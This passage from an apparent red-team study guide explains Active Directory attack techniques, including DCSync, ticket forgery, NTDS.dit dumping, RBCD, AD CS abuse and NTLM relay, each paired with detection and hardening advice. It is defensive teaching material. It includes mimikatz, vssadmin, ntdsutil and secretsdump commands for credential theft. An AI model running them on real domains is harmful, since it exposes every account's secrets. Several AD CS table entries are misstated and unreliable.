

# 08. Red Team Tradecraft, Infrastructure & Detection Engineering

This section covers the theoretical mechanics of Red Team infrastructure design, stealthy reconnaissance, Active Directory (AD) Pentesting & Red Teaming concepts, and the corresponding defensive telemetry used by Blue Teams to detect and mitigate these activities.

---

## Table of Contents
- [Tiered Infrastructure Architecture (C2 Design)](#tiered-infrastructure-architecture-c2-design)
  - [Defensive Analysis: JARM & JA3/JA4 Fingerprinting](#defensive-analysis-jarm--ja3ja4-fingerprinting)
- [External Active Directory & Tenant Profiling](#external-active-directory--tenant-profiling)
  - [Defensive Analysis: Monitoring Tenant Footprints](#defensive-analysis-monitoring-tenant-footprints)
- [Active Directory Pentesting & Red Teaming Theory](#active-directory-pentesting--red-teaming-theory)
  - [AD Architecture & Trust Topologies](#ad-architecture--trust-topologies)
  - [LDAP Enumeration Mechanics](#ldap-enumeration-mechanics)
    - [Defensive Telemetry: LDAP Auditing (Event ID 1644)](#defensive-telemetry-ldap-auditing-event-id-1644)
  - [Kerberos Authentication Attacks](#kerberos-authentication-attacks)
    - [1. AS-REP Roasting (Pre-Authentication Bypass)](#1-as-rep-roasting-pre-authentication-bypass)
    - [2. Kerberoasting (Service Principal Abuse)](#2-kerberoasting-service-principal-abuse)
    - [Defensive Telemetry: Kerberos Logging (Event IDs 4768 & 4769)](#defensive-telemetry-kerberos-logging-event-ids-4768--4769)
  - [Privilege Escalation & Delegation Abuse](#privilege-escalation--delegation-abuse)
    - [1. Unconstrained Delegation](#1-unconstrained-delegation)
    - [2. Constrained Delegation & S4U Extensions](#2-constrained-delegation--s4u-extensions)
    - [Defensive Remediation: Hardening Delegation](#defensive-remediation-hardening-delegation)
- [DCSync: Directory Replication Attack](#dcsync-directory-replication-attack)
  - [Defensive Telemetry: DCSync Detection (Event ID 4662)](#defensive-telemetry-dcsync-detection-event-id-4662)
- [Golden Ticket & Silver Ticket Forgery](#golden-ticket--silver-ticket-forgery)
  - [Golden Ticket Attack](#golden-ticket-attack)
  - [Silver Ticket Attack](#silver-ticket-attack)
  - [Defensive Telemetry: Ticket-Based Attack Detection](#defensive-telemetry-ticket-based-attack-detection)
- [Skeleton Key & Directory Service Backdoors](#skeleton-key--directory-service-backdoors)
- [NTDS.dit Extraction & Credential Theft](#ntdsdit-extraction--credential-theft)
  - [Volume Shadow Copy (VSS) Approach](#volume-shadow-copy-vss-approach)
  - [Defensive Hardening: NTDS.dit Protection](#defensive-hardening-ntdsdit-protection)
- [Pass-the-Hash, Pass-the-Ticket & Overpass-the-Hash](#pass-the-hash-pass-the-ticket--overpass-the-hash)
  - [Pass-the-Hash (PtH)](#pass-the-hash-pth)
  - [Pass-the-Ticket (PtT)](#pass-the-ticket-ptt)
  - [Overpass-the-Hash (Pass-the-Key)](#overpass-the-hash-pass-the-key)
  - [Defensive Telemetry: Lateral Movement Detection](#defensive-telemetry-lateral-movement-detection)
- [Resource-Based Constrained Delegation (RBCD) Attacks](#resource-based-constrained-delegation-rbcd-attacks)
  - [Attack Mechanics](#attack-mechanics)
  - [Defensive Remediation: RBCD Hardening](#defensive-remediation-rbcd-hardening)
- [Active Directory Certificate Services (AD CS) Attacks: ESC1–ESC13](#active-directory-certificate-services-ad-cs-attacks-esc1esc13)
  - [High-Impact ESC Techniques](#high-impact-esc-techniques)
  - [Certification Authority (CA) Discovery](#certification-authority-ca-discovery)
  - [Defensive Remediation: AD CS Hardening](#defensive-remediation-ad-cs-hardening)
- [NTLM Relay & Coercion Techniques](#ntlm-relay--coercion-techniques)
  - [Coercion Methods](#coercion-methods)
  - [Relay Targets & Cross-Protocol Attacks](#relay-targets--cross-protocol-attacks)
  - [Defensive Remediation: NTLM Hardening](#defensive-remediation-ntlm-hardening)
- [BloodHound Graph Analysis Deep-Dive](#bloodhound-graph-analysis-deep-dive)
  - [Attack Path Primitives](#attack-path-primitives)
  - [Custom Cypher Queries](#custom-cypher-queries)
- [Password Spraying: Detection Evasion & Telemetry](#password-spraying-detection-evasion--telemetry)
- [Group Policy Object (GPO) Abuse](#group-policy-object-gpo-abuse)
  - [GPO-Based Persistence](#gpo-based-persistence)
  - [Defensive Hardening: GPO Security](#defensive-hardening-gpo-security)
- [LAPS Enumeration & Abuse](#laps-enumeration--abuse)
- [AdminSDHolder & SDProp Abuse](#adminsdholder--sdprop-abuse)
- [DNSAdmins Privilege Escalation](#dnsadmins-privilege-escalation)
- [Exchange On-Premises & OWA Attack Vectors](#exchange-on-premises--owa-attack-vectors)
  - [Exchange Privilege Escalation](#exchange-privilege-escalation)
  - [Outlook Web App (OWA) Enumeration](#outlook-web-app-owa-enumeration)
- [MSSQL Linked Server Enumeration & Abuse](#mssql-linked-server-enumeration--abuse)
  - [Linked Server Lateral Movement](#linked-server-lateral-movement)
  - [Defensive Telemetry: MSSQL Auditing](#defensive-telemetry-mssql-auditing)
- [Cross-Forest Kerberos Attacks](#cross-forest-kerberos-attacks)
  - [Foreign Security Principal Abuse](#foreign-security-principal-abuse)
  - [Cross-Forest Trust Exploitation Strategy](#cross-forest-trust-exploitation-strategy)
- [Defense Evasion in Network Reconnaissance](#defense-evasion-in-network-reconnaissance)
  - [Defensive Analysis: Beaconing & Scan Detection](#defensive-analysis-beaconing--scan-detection)
- [Edge Device & Initial Access Profiling](#edge-device--initial-access-profiling)
  - [Defensive Analysis: Perimeter Hardening & Threat Telemetry](#defensive-analysis-perimeter-hardening--threat-telemetry)

---

## Tiered Infrastructure Architecture (C2 Design)

Modern Red Team operations separate the primary Command & Control (C2) servers from direct interaction with the target network. This is achieved using a tiered proxy model.

```mermaid
graph TD
    Target[Target Network] -->|HTTP/HTTPS Traffic| Redirector[Tier 1 Redirector (CDN / Nginx)]
    Redirector -->|Proxy Forwarding| TeamServer[Tier 2 C2 Team Server]
    TeamServer -->|Administrative Access| Operator[Red Team Operator Console]
    
    style Target fill:#f9f,stroke:#333,stroke-width:2px
    style Redirector fill:#bbf,stroke:#333,stroke-width:2px
    style TeamServer fill:#fbb,stroke:#333,stroke-width:2px
```

### 1. Tier 1: Front-end Redirectors
- **Purpose**: Receive incoming agent beacons or scanning callbacks.
- **Mechanics**: Configured using standard reverse proxies (Nginx, Apache) or Content Delivery Networks (CDNs).
- **Domain Fronting**: An evasion technique where a request is routed through a major CDN provider, masking the true host header. While many CDNs have restricted this, custom configurations (e.g., abusing HTTP Host headers on legacy servers) are still analyzed in academic evasion studies.

### 2. Tier 2: Team Servers
- **Purpose**: Manage agent states, deliver tasking, and compile execution logs.
- **OpSec Rule**: Team servers must never interact with the target directly. Access is restricted exclusively to authorized operator IPs via SSH tunnels or VPNs.

---

### Defensive Analysis: JARM & JA3/JA4 Fingerprinting

Security monitoring systems detect custom redirectors and C2 listeners without analyzing the payloads themselves, by looking at SSL/TLS handshake behaviors.

#### JARM (Active TLS Fingerprinting)
JARM is an active TLS fingerprinting tool. It sends 10 customized TLS Client Hello packets to a target port and analyzes the server responses to compile a 62-character cryptographic fingerprint.
- **Detection**: C2 frameworks (e.g., Cobalt Strike, Sliver) have default JARM signatures. Security tools search Shodan/Censys for these signatures to flag malicious servers.
- **Mitigation**: Red Teams configure Nginx/Apache redirectors to use standard, unmodified TLS stacks (like default Debian Apache configurations) to blend in. Blue Teams monitor inbound traffic to identify mismatching certificates/JARM signatures.

#### JA3/JA4 (Passive TLS Fingerprinting)
JA3/JA4 hashes the parameters of the TLS Client Hello packet sent by the client.
- **Detection**: If a scanner or C2 agent uses a custom TLS library (e.g., Go’s `crypto/tls` or custom Python sockets), its JA3/JA4 fingerprint will differ from standard browsers like Chrome or Edge.
- **Rule Example (Suricata)**:
  ```text
  alert tls $HOME_NET any -> $EXTERNAL_NET any (msg:"MALICIOUS JA3/JA4 SSL Client Fingerprint Detected"; ja3.hash:"[KNOWN_MALICIOUS_HASH]"; sid:1000001; rev:1;)
  ```

---

## External Active Directory & Tenant Profiling

During external reconnaissance, mapping a target’s Identity Provider (IdP) infrastructure reveals active usernames, email structures, and authentication portals.

### 1. Microsoft 365 / Azure AD Tenant Discovery
Microsoft exposes specific endpoints that allow organizations to query domain federation status passively.

- **Mechanics**: Querying the OpenID Configuration or Autodiscover endpoints reveals details about the tenant.
  - Endpoint: `https://login.microsoftonline.com/getuserrealm.aspx?login=user@target.com&xml=1`
  - Response Data:
    - `NameSpaceType`: Identifies whether the domain is `Managed` (handled directly by Azure AD) or `Federated` (redirected to an on-premise ADFS server).
    - `FederationBrandName`: Indicates the primary identity provider domain name.
    - `AuthURL`: The exact URL where users are redirected to authenticate (e.g., ADFS portal).

### 2. Identity Provider Fingerprinting
Organizations routing authentication through external services expose login endpoints:
- **Okta**: `https://target.okta.com`
- **Keepers / Active Directory Federation Services (ADFS)**: `/adfs/ls/idpinitiatedsignon.aspx`
- **PingFederate**: `/pingfederate/`

---

### Defensive Analysis: Monitoring Tenant Footprints

Defenders monitor Azure Active Directory and on-premise Active Directory access to block tenant enumeration and brute-forcing.

- **Mitigation Strategies**:
  - **Tenant Restrictions**: Configure firewall or web gateway rules to restrict outbound M365 access only to approved corporate directory tenants.
  - **Blocking Legacy Authentication**: Disable legacy protocols (e.g., IMAP, POP3, SMTP authentication) that bypass Multi-Factor Authentication (MFA).
- **Log Correlation**: Monitor Azure Active Directory Sign-in Logs (specifically Event ID `4625` on ADFS or failed sign-in status codes like `50053` - Account Locked, `50126` - Invalid Credentials).

---

## Active Directory Pentesting & Red Teaming Theory

Once internal access or initial foot-holding is established, Active Directory becomes the primary target for lateral movement, privilege escalation, and domain dominance.

### AD Architecture & Trust Topologies

An Active Directory Forest consists of one or more Domain Trees, which share a common schema, configuration, and global catalog.
- **Domain Trusts**: Relationships that allow users in one domain to access resources in another.
  - **Transitive Trusts**: If Domain A trusts Domain B, and Domain B trusts Domain C, then Domain A implicitly trusts Domain C.
  - **Non-Transitive Trusts**: A trust relationship restricted strictly to the two participating domains.
  - **Shortcut & Parent-Child Trusts**: Internal trusts created to optimize authentication paths.
  - **External / Forest Trusts**: Created between separate organizations or distinct forests.

---

### LDAP Enumeration Mechanics

Lightweight Directory Access Protocol (LDAP) is the protocol used to query and manage directory objects in AD (Domain Controllers listen on TCP/UDP 389 and 636 for LDAPS).

- **Enumeration Concept**: Standard domain users have default read permissions to almost all AD objects. Operators run LDAP queries programmatically to retrieve:
  - Users, Groups, Computers, and Organisational Units (OUs).
  - Group memberships (e.g., identifying nested members of the `Domain Admins` group).
  - Trust details (using attributes like `trustDirection` and `trustType`).
  - Active Directory Schema metadata.

#### Defensive Telemetry: LDAP Auditing (Event ID 1644)
Domain Controllers can be configured to log LDAP searches that exceed resource limits or query high volumes of objects.
- **Windows Event Log**: `Directory Service` log, Event ID **1644**.
- **Data Logged**: Lists the IP address of the client performing the LDAP query, the exact search filter used, and the number of objects returned.
- **Hardening**: Restrict standard user read DACLs on sensitive AD objects (such as computer accounts or specific OUs) to limit automated mapping tools.

---

### Kerberos Authentication Attacks

Kerberos is the default authentication protocol in Active Directory. It relies on a Key Distribution Center (KDC) running on Domain Controllers (TCP/UDP port 88).



#### 1. AS-REP Roasting (Pre-Authentication Bypass)
- **Vulnerability**: If the attribute `DONT_REQ_PREAUTH` (Do not require Kerberos preauthentication) is set on a user account, anyone can send an `AS-REQ` to the KDC on behalf of that user.
- **Attack Mechanics**: The KDC returns an `AS-REP` containing a ticket encrypted with the target user's password hash. Since no pre-authentication timestamp was validated, this ticket can be extracted from the network capture and cracked offline using dictionary or brute-force attacks.

#### 2. Kerberoasting (Service Principal Abuse)
- **Vulnerability**: Any authenticated domain user can request a Kerberos service ticket (`TGS-REP`) for any Service Principal Name (SPN) registered in the Active Directory forest.
- **Attack Mechanics**: When a client sends a `TGS-REQ` specifying an SPN registered under a user account (service account), the KDC returns a `TGS-REP` ticket encrypted with that service account's password hash. The client extracts this ticket from memory and cracks it offline to recover the service account password.

#### Defensive Telemetry: Kerberos Logging (Event IDs 4768 & 4769)
Domain Controllers log Kerberos ticket requests in the Windows Security Log.

- **Event ID 4768 (Authentication Ticket Requested - AS-REQ)**:
  - **AS-REP Roasting Detection**: Look for Event ID 4768 where Pre-Authentication Type is listed as `0` (or `0x0` - None), indicating pre-authentication was bypassed.
- **Event ID 4769 (Service Ticket Requested - TGS-REQ)**:
  - **Kerberoasting Detection**: Look for abnormal ticket request patterns:
    - High frequency of Event ID 4769 requests from a single source host targeting multiple service names.
    - **Encryption Downgrade**: Monitor for tickets requested with **RC4-HMAC (Type 0x17 / 23)** encryption instead of standard AES-256 (Type 0x12 / 18). Attackers often downgrade encryption because RC4 is significantly faster to crack offline.
  - **Honeytoken Accounts**: Create fake SPNs registered under accounts with highly attractive names (e.g., `SQL-Admin-Service`). Configure SIEM alerts to trigger immediately if an Event ID 4769 is logged targeting these specific honeytoken accounts, as they have no legitimate business function.

---

### Privilege Escalation & Trust Abuse

Once administrative control over local machines or services is obtained, delegation configurations allow operators to impersonate domain users.

#### 1. Unconstrained Delegation
- **Vulnerability**: When a computer or user account is configured with Unconstrained Delegation, it can impersonate any domain user that authenticates to it.
- **Attack Mechanics**: When a user attempts to access a service running on a machine with unconstrained delegation, the domain controller inserts a copy of that user's Ticket Granting Ticket (TGT) into the service ticket. The machine stores the user's TGT in the LSASS (Local Security Authority Subsystem Service) memory. An operator who compromises this machine can extract these cached TGTs from memory to impersonate high-privilege users (e.g., Domain Admins).

#### 2. Constrained Delegation & S4U Extensions
- **Vulnerability**: Constrained Delegation restricts impersonation to specific services (e.g., HTTP/server-1). However, it uses Microsoft Kerberos extensions: **S4U2self** (Service for User to Self) and **S4U2proxy** (Service for User to Proxy).
- **Attack Mechanics**: 
  - **S4U2self**: Allows a service to request a service ticket for itself on behalf of any domain user (without validating their password), provided the service has constrained delegation configured.
  - **S4U2proxy**: Allows the service to present that ticket to the KDC to request an impersonation ticket targeting downstream services. If an operator compromises the account hash of a machine/user with constrained delegation, they can generate custom S4U requests to impersonate Domain Admins to the allowed services.

---

### Defensive Remediation: Hardening Delegation

To prevent delegation abuse, secure Active Directory settings:

1. **Disable Unconstrained Delegation**: Transition all systems to Resource-Based Constrained Delegation (RBCD) or Standard Constrained Delegation.
2. **Protected Users Security Group**: Add high-privilege administrative accounts to the default AD group `Protected Users`. This group enforces strict security policies:
   - Restricts delegation (TGTs cannot be delegated or cached).
   - Disables weak encryption ciphers.
   - Enforces Kerberos authentication (disables NTLM fallbacks).
3. **Sensitive Flag**: Mark administrative accounts as `Account is sensitive and cannot be delegated` in their AD user properties.

---

## DCSync: Directory Replication Attack

DCSync abuses the Directory Replication Service Remote Protocol (MS-DRSR) to simulate a Domain Controller and request password hash replication from a live domain controller.

### Attack Mechanics
A user account with `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` extended rights (granted by default to members of Domain Admins, Enterprise Admins, and Administrators) can request replication of any user object's credentials—including the KRBTGT account hash and any domain user's NT hash and Kerberos keys.

- **Required Privilege**: `Replicating Directory Changes All` (`DS-Replication-Get-Changes-All` GUID `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`).
- **Attack Execution** (conceptual, using Mimikatz-style methodology):
  ```text
  # DCSync the KRBTGT account hash (enables Golden Ticket creation)
  lsadump::dcsync /domain:TARGET /user:KRBTGT
  
  # DCSync a specific high-value target
  lsadump::dcsync /domain:TARGET /user:Administrator
  ```

### Defensive Telemetry: DCSync Detection (Event ID 4662)
- **Windows Security Log**: Event ID **4662** ("An operation was performed on an object") logged against the Domain-DNS object class with `Properties` containing the GUID `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` (Replicating Directory Changes All).
- **Detection Threshold**: Any non-Domain Controller machine account performing directory replication requests is anomalous.
- **SIEM Rule**: Alert on any 4662 event where `SubjectUserName != "*$"` (non-machine account) requesting replication.

---

## Golden Ticket & Silver Ticket Forgery

Kerberos ticket forgery bypasses the KDC entirely by generating valid-looking tickets offline using stolen hash material.

### Golden Ticket Attack
A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) created using the KRBTGT account's NT hash.

- **Mechanics**: The KRBTGT account's password hash is the root Kerberos signing key. An operator who extracts this hash (via DCSync or NTDS.dit dump) creates an offline TGT with arbitrary `Privilege Attribute Certificate (PAC)` data—including group memberships like Domain Admins, Enterprise Admins, or Schema Admins.
- **Characteristics**:
  - The TGT is valid for any account, including non-existent accounts (e.g., a fictitious "admin" user).
  - The ticket can be configured with an arbitrary lifetime (up to 10 years), persisting even if the operator loses initial access.
  - The forged TGT does not generate Event ID 4768 (AS-REQ) on the Domain Controller—thereby evading AS-REP Roasting detection.

### Silver Ticket Attack
A Silver Ticket is a forged Kerberos Service Ticket (TGS) created using a targeted service account's NT hash.

- **Mechanics**: The operator extracts the NT hash of a service account (e.g., a machine account, SQL service account, or IIS application pool identity) through Kerberoasting or credential dumping. Using this hash, they forge a service ticket that appears valid to that specific service without any interaction with the KDC.
- **Characteristics**:
  - TGS-REQ/TGS-REP exchanges (Event ID 4769) are never logged on the Domain Controller.
  - The attacker bypasses all Kerberos pre-authentication checks.
  - PAC validation is entirely optional within the forged ticket.

### Defensive Telemetry: Ticket-Based Attack Detection
- **Golden Ticket Detection**:
  - Monitor for TGT lifetimes exceeding the domain's configured `MaxTicketAge` (default: 10 hours). A TGT with a 10-year lifetime is a definitive indicator.
  - Event ID **4769** (TGS-REQ) where the `Account Domain` field contains a non-existent domain name.
- **Silver Ticket Detection**:
  - Event ID **4624** (Logon) with `LogonType=3`, `AuthenticationPackageName=Kerberos`, but no corresponding Event ID 4768 (AS-REQ) or 4769 (TGS-REQ) in the Event Log timeline.
  - Monitor for service tickets with RC4-HMAC encryption (Type 0x17) when only AES is configured.

---

## Skeleton Key & Directory Service Backdoors

A Skeleton Key attack patches the LSASS process on a Domain Controller in memory, creating a master password that authenticates to any domain account while preserving the user's original password.

- **Mechanics**: The malware (injected into LSASS via mimikatz's `misc::skeleton`) hooks the Kerberos authentication path. When a user attempts Kerberos authentication with the skeleton key password (e.g., "mimikatz"), LSASS accepts the skeleton key *in addition* to the real password. The original user's password continues to function normally, making detection extremely difficult.
- **Characteristics**:
  - No persistent on-disk changes—it operates purely in memory.
  - Service restart (or DC reboot) removes the backdoor.
  - Affects all domain accounts simultaneously.
- **Detection**:
  - Kerberos encryption downgrade: Users who normally authenticate with AES suddenly downgrade to RC4.
  - LSASS process integrity monitoring via Windows Defender ATP or Sysmon Event ID **10** (ProcessAccess).

---

## NTDS.dit Extraction & Credential Theft

The `ntds.dit` file is the Active Directory database stored on every Domain Controller at `%SystemRoot%\NTDS\ntds.dit`. It contains the NT hashes, LM hashes, and Kerberos keys for every domain user, computer, and group managed by the directory.

### Volume Shadow Copy (VSS) Approach
Windows Volume Shadow Copy Service creates a point-in-time snapshot of the system volume, bypassing file locks on the live NTDS.dit file.

```text
# Conceptual workflow (Mimikatz / VSSAdmin methodology):
1. Create a shadow copy: vssadmin create shadow /for=C:
2. Copy ntds.dit and SYSTEM registry hive from the shadow copy
3. Extract hashes: secretsdump.py -ntds ntds.dit -system SYSTEM.hive LOCAL
```

- **Alternative Extraction**: Use `ntdsutil.exe` (native Microsoft utility) to create IFM (Install From Media) backups containing the directory database.
  ```text
  ntdsutil "activate instance ntds" "ifm" "create full c:\windows\temp\ifm" quit quit
  ```

### Defensive Hardening: NTDS.dit Protection
- **Sysmon Event ID 11 (FileCreate)** on `%SystemRoot%\NTDS\ntds.dit` access by non-system processes.
- **Sysmon Event ID 1 (ProcessCreate)** monitoring for `vssadmin.exe`, `ntdsutil.exe`, `diskshadow.exe` execution.
- Restrict `SeBackupPrivilege` to only trusted backup service accounts.
- Deploy Windows Defender Credential Guard to isolate LSASS secrets in Hyper-V-based Virtual Secure Mode (VSM).

---

## Pass-the-Hash, Pass-the-Ticket & Overpass-the-Hash

Lateral movement techniques that reuse credential material without requiring plaintext passwords.

### Pass-the-Hash (PtH)
Uses the NT hash directly to authenticate to NTLM-based services (SMB, WMI, WinRM, RDP with Restricted Admin).
- **Affected Protocols**: SMB (TCP 445), WMI (DCOM on 135 + dynamic RPC), WinRM (5985/5986), MSSQL with Windows Authentication.
- **Mechanics**: NTLM authentication protocol does not validate whether the client knows the plaintext password—only whether the challenge-response computation matches the stored NT hash. Therefore, the hash *is* functionally equivalent to the password for NTLM-protected protocols.

### Pass-the-Ticket (PtT)
Injects a captured Kerberos ticket (TGT or TGS) into the current logon session to assume the identity of any domain user.
- **Ticket Sources**:
  - LSASS memory dumping (mimikatz `sekurlsa::tickets`).
  - Rubeus `triage` and `dump` for all current logon session tickets.
  - Harvesting from non-admin interactive sessions.

### Overpass-the-Hash (Pass-the-Key)
Converts an NT hash or AES key into a Kerberos TGT without knowing the plaintext password. This technique leverages the fact that Kerberos pre-authentication uses the user's secret key (derived from their password) rather than the password itself.
- **AES Key Variant**: If AES keys are extracted from LSASS (mimikatz `sekurlsa::ekeys`), the operator requests a TGT using the AES256 key directly, generating Kerberos tickets that transparently authenticate to modern Kerberos-only services.

### Defensive Telemetry: Lateral Movement Detection
- **PtH Detection**: Event ID **4624** with `LogonType=3` (Network) and `AuthenticationPackageName=NTLM`, correlated with:
  - `LogonProcessName=NtLmSsp` but no preceding `LogonType=2` (Interactive) for that user.
  - Source workstation name mismatch from the user's typical access pattern.
- **PtT/Overpass-PtH Detection**:
  - Event ID **4768** (TGT request) where `EncryptionType=0x17` (RC4) but the user account has AES keys configured.
  - Event ID **4771** (Kerberos Pre-Auth Failed) preceding a successful 4768 with a different encryption type (ticket request using hash material without knowing the decrypted timestamp).

---

## Resource-Based Constrained Delegation (RBCD) Attacks

RBCD provides a more granular delegation model than traditional constrained delegation by storing the delegation authorization on the *resource* (target service) rather than the *principal* (source account).

### Attack Mechanics
RBCD is configured by writing the security identifier (SID) of the trusted principal into the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target computer object. An operator with `GenericWrite`, `WriteProperty`, or ownership of a computer account can modify this attribute.

1. **Create/Compromise a Computer Account**: By default, any authenticated domain user can create up to 10 machine accounts (`MachineAccountQuota`). Use [StandIn](https://github.com/FuzzySecurity/StandIn), [PowerMad](https://github.com/Kevin-Robertson/Powermad), or [SharpAllowedToAct](https://github.com/mpgn/SharpAllowedToAct).
2. **Configure RBCD on Target**: Write the attacker-controlled computer account SID into the target computer's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.
3. **S4U2self + S4U2proxy**: Use the attacker-controlled machine account to perform S4U2self (obtain a TGS for Administrator to itself), then S4U2proxy (present that ticket to the KDC to obtain a TGS for Administrator to the target computer).

### Defensive Remediation: RBCD Hardening
- **MachineAccountQuota**: Set `ms-DS-MachineAccountQuota` to 0 to prevent unauthorized computer account creation.
- **Service Account Monitoring**: Audit modifications to `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute (Event ID **5136** in Directory Service Changes).
- **AdminSDHolder**: Add `msDS-AllowedToActOnBehalfOfOtherIdentity` to the protected attribute list.

---

## Active Directory Certificate Services (AD CS) Attacks: ESC1–ESC13

AD CS is Microsoft's Public Key Infrastructure (PKI) implementation. Misconfigured certificate templates enable privilege escalation from low-privileged domain user to Domain Admin through certificate-based authentication.

### High-Impact ESC Techniques

| ESC | Name | Prerequisite | Escalation Path |
|-----|------|-------------|-----------------|
| **ESC1** | Template Allows SAN Specification | Certificate template with `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` and EKU supporting client authentication | Enroll as Administrator by specifying UPN in SAN |
| **ESC2** | Template with Any Purpose EKU | Template with `Any Purpose` EKU or no EKU | Cert can be used for any purpose including client authentication |
| **ESC3** | Enrollment Agent EKU | Template with `Certificate Request Agent` EKU | Request a certificate *on behalf of* any domain user |
| **ESC4** | Weak Template ACLs | GenericWrite/WriteOwner/WriteDacl on a certificate template | Modify template to add `ENROLLEE_SUPPLIES_SUBJECT` flag |
| **ESC5** | PKI Object ACL Abuse | Control over CA server, CA computer object, or parent OU | Obtain CA private key or configure rogue CA |
| **ESC6** | CA Allows SAN on SubCA Template | `EDITF_ATTRIBUTESUBJECTALTNAME2` flag set on CA | Specify arbitrary SAN during enrollment |
| **ESC7** | CA Manager Role | `ManageCA` or `ManageCertificates` access on CA | Approve pending certificate requests with arbitrary SAN |
| **ESC8** | NTLM Relay to HTTP Enrollment | CA web enrollment endpoint accepts NTLM | Relay NTLM auth to obtain a user certificate |
| **ESC9** | No Security Extension | Template missing `CT_FLAG_NO_SECURITY_EXTENSION` | Older templates with `szOID_NTDS_CA_SECURITY_EXT` missing |
| **ESC10** | Weak Certificate Mapping | Strong certificate mapping disabled via registry | User-to-certificate binding bypassed |
| **ESC11** | IF_ENFORCE_ENCRYPT_CERT_REQUEST | `IF_ENFORCEENCRYPTICERTREQUEST` flag not set | Compromise CA admin to configure unauthorized template access |
| **ESC12** | CA Shell Access | Shell access to CA server where CA certificate resides | Extract CA certificate and import for signing operations |
| **ESC13** | OID Group Link Abuse | Issuance policy OID linked to a privileged group | Enumeration of policy OIDs linked to administrative groups |

### Certification Authority (CA) Discovery
```bash
# Enumerate AD CS infrastructure
certutil -TCAInfo
certutil -config - -ping
certipy find -u user@domain.local -p 'Password123' -dc-ip 192.168.1.1 -vulnerable
```
- **Critical Enrollment Endpoints**:
  - `http://CA-SERVER/certsrv/` — Web enrollment interface.
  - Certificate Enrollment Web Services (CES) on `/ADPolicyProvider_CEP_Kerberos/service.svc`.
  - Certificate Enrollment Policy Web Service on `/ADPolicyProvider_CEP_UsernamePassword/service.svc`.

### Defensive Remediation: AD CS Hardening
- Audit all certificate templates for `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` and remove it from templates that permit client/server authentication.
- Remove `EDITF_ATTRIBUTESUBJECTALTNAME2` flag from CA configuration.
- Require CA certificate manager approval for all enrollment requests (manual issuance).
- Enforce strong certificate mapping via `StrongCertificateBindingEnforcement` registry key (KB5014754).
- Monitor Event ID **4886** (Certificate Services: Certificate issued) and **4887** (Certificate Services: Certificate denied).

---

## NTLM Relay & Coercion Techniques

NTLM relay attacks force a victim to authenticate to an attacker-controlled server, then relay the captured Net-NTLM authentication to another service where the victim has access.

### Coercion Methods
Methods to force a target computer or user to initiate NTLM authentication to the attacker:

| Technique | Protocol | Trigger | Reference |
|-----------|----------|---------|-----------|
| **PetitPotam** | MS-EFSRPC (EfsRpcOpenFileRaw) | Coerce DC to authenticate via EFS RPC | `PetitPotam.py` |
| **PrinterBug** | MS-RPRN (RpcRemoteFindFirstPrinterChangeNotification) | Coerce via Print Spooler service | `SpoolSample.exe` |
| **DFSCoerce** | MS-DFSNM (NetrDfsAddStdRoot) | Coerce via Distributed File System | `DFSCoerce.py` |
| **ShadowCoerce** | MS-FSRVP | Coerce via File Server Remote VSS Protocol | `ShadowCoerce.py` |
| **WebClient / WebDAV** | HTTP (WebClient service) | Coerce via authenticated WebDAV request | `WebClient` + `rundll32` |
| **CertCoerce** | MS-ICPR | Coerce via AD CS certificate web enrollment | `CertCoerce` |

### Relay Targets & Cross-Protocol Attacks
- **SMB to LDAP/S**: Relay NTLM from an SMB connection to LDAP/S (TCP 636) to modify directory objects (e.g., configure RBCD on the victim machine).
- **HTTP to LDAP/S**: If the victim's WebClient service is running, coerce HTTP authentication and relay to LDAP/S for RBCD delegation abuse.
- **SMB to SMB**: Relay to SMB for lateral movement, command execution via `PsExec`-style service creation.
- **NTLMv1 to NTLMv2 Downgrade**: Force downgrade to weak NT/LM hashes for offline cracking.

### Defensive Remediation: NTLM Hardening
- Enable SMB signing (`RequireSecuritySignature = 1`) on all domain machines via Group Policy.
- Enable LDAP Channel Binding and LDAP Signing (`ldapserverintegrity = 2`).
- Disable NTLMv1 entirely; audit for NTLMv2 relay events.
- Enable Extended Protection for Authentication (EPA) on IIS and Exchange servers.
- Monitor Event ID **8004** (NTLM Blocked) on Windows Firewall and Sysmon Event ID **3** (Network Connection) for SMB to attacker-IP connections.

---

## BloodHound Graph Analysis Deep-Dive

[BloodHound](https://github.com/BloodHoundAD/BloodHound) models Active Directory permissions, group memberships, sessions, and ACLs as a graph database (Neo4j), making attack path enumeration a graph traversal problem rather than manual enumeration.

### Attack Path Primitives
BloodHound's graph edge types represent exploitable relationships:

| Edge | Meaning | Exploitation |
|------|---------|-------------|
| `GenericWrite` | Write access to an object's non-protected attributes | Modify `servicePrincipalName` for targeted Kerberoasting |
